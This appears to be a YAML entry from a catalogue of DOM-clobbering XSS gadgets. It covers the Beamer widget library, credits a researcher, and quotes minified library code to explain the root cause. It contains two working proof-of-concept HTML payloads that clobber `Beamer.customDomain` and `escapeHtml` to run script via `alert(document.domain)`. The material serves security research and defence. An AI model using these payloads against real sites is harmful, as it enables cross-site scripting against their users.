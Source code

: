 ```yaml
---
description: Inform and educate your customers with two-way communication that allows you to learn what customers love, and what they need.
gadgets:
  Latest:
    authors:
      - twitter:kevin_mizu
    tags:
      - chrome-browser
      - safari-browser
      - a-tag
      - any-tag
      - id-attr
      - name-attr
      - before-func-call
    pocs:
      - description: The Beamer library uses the `Beamer.customDomain` value as an `<iframe src="">` when `enableAutoRefresh` and `activateAutoRefresh` configuration options are specified.
        code: |
          <!-- user input -->
          <p id="Beamer"></p><a id="Beamer" name="customDomain" href="javascript:alert(document.domain)//"></a>

          <script>
            var beamer_config = {
                product_id : "TCocQlcK73424",
                user_id: "00000000-0000-0000-0000-000000000000"
            };
          </script>
          <script type="text/javascript" src="[current-location]assets/xss/beamer/beamer-embed.js" defer="defer"></script>
          <script>
            setTimeout(() => { Beamer.update({language: "FR"}) }, 1000); /*
            window.Beamer&&window.Beamer.update()
            */
          </script>
      - description: Even if a sanitizer is being used, it's possible to abuse HTMLCollection items not being writable to disable the `Beamer.escapeHtml` function.
        code: |
          <!-- user input -->
          <p id="Beamer" name="pushDomain"></p><p id="Beamer"></p><a id="Beamer" name="customDomain" href="http:'/onload='alert(document.domain)'/x='"></a><a id="beamerOverlay"><p id="Beamer" name="escapeHtml"></p></a>

          <script>
            var beamer_config = {
                product_id : "TCocQlcK73424",
                user_id: "00000000-0000-0000-0000-000000000000"
            };
          </script>
          <script type="text/javascript" src="[current-location]assets/xss/beamer/beamer-embed.js" defer="defer"></script>
          <script>
            setTimeout(() => { Beamer.update({language: "FR"}) }, 1000); /*
            window.Beamer&&window.Beamer.update()
            */
          </script>
    more-info: |
      **Root Cause**

      ```js
      Beamer.update = function(a) {
          if ("undefined" !== typeof a) {
              var b = !1;
              // ...
              "undefined" !== typeof a.language && beamer_config.language !== a.language && (beamer_config.language = a.language,
              b = !0);
              // ...
              for (var c in a)
                  if (a.hasOwnProperty(c) && !(-1 < Beamer.reservedParameters.indexOf(c))) {
                      var d = a[c];
                      "undefined" === typeof d || "object" === typeof d || Beamer.isFunction(d) || beamer_config[c] === d || (beamer_config[c] = d,
                      b = !0)
                  }
              b && (Beamer.started ? Beamer.appendAlert(!0, !0) : Beamer.init()) // HERE
          }
      }
      ```

      ```js
      Beamer.appendAlert = function(a, b) { // HERE
          // ...

          if (!Beamer.isEmbedMode() && ("undefined" === typeof beamer_config.auto_refresh || beamer_config.auto_refresh) && "undefined" !== typeof l && l && "undefined" !== typeof k && k) {
              if (h || "undefined" !== typeof b && b) 
                  _BEAMER_IS_OPEN ? Beamer.removeOnHide = !0 : Beamer.removeIframe(), // HERE
                  Beamer.setCookie(_BEAMER_LAST_UPDATE + "_" + beamer_config.product_id, (new Date).getTime(), 300);
              h = Beamer.getConfigParameter(f, "autoRefreshTimeout");
              "undefined" !== typeof h ? Beamer.autoRefreshTimeout = h : "undefined" !== typeof Beamer.autoRefreshTimeout && Beamer.autoRefreshTimeout || (Beamer.autoRefreshTimeout = 1201E3);
              h = Beamer.getConfigParameter(f, "enableUpdatesListener");
              "undefined" !== typeof h && h ? (f = Beamer.getConfigParameter(f, "updatesDelay"),
              "undefined" !== typeof f && 0 <= f && (Beamer.updatesMaxDelay = f),
              Beamer.appendUtilitiesIframe(!0)) : Beamer.prepareAutoRefresh() // HERE
      ```

      ```js
      Beamer.appendUtilitiesIframe = function(a) {
          if ("undefined" === typeof Beamer.config.disableUtilitiesIframe || !Beamer.config.disableUtilitiesIframe)
              try {
                  if (!document.getElementById("beamerUtilities")) {
                      var b = "undefined" !== typeof Beamer.customDomain ? Beamer.customDomain : _BEAMER_URL;
                      b += "utilities?app_id=" + beamer_config.product_id;
                      "undefined" !== typeof Beamer.escapeHtml && (b = Beamer.escapeHtml(b));
                      Beamer.appendHtml(document.body, "<iframe id='beamerUtilities' src='" + b + "' width='0' height='0' frameborder='0' scrolling='no'></iframe>")
                  }
                  "undefined" !== typeof Beamer.customDomain && Beamer.setIframeCookies();
                  "undefined" !== typeof a && a && Beamer.initUpdatesListener()
              } catch (c) {
                  Beamer.logError(c)
              }
      }
      ```
    links:
      - https://mizu.re/post/under-the-beamer
---
```

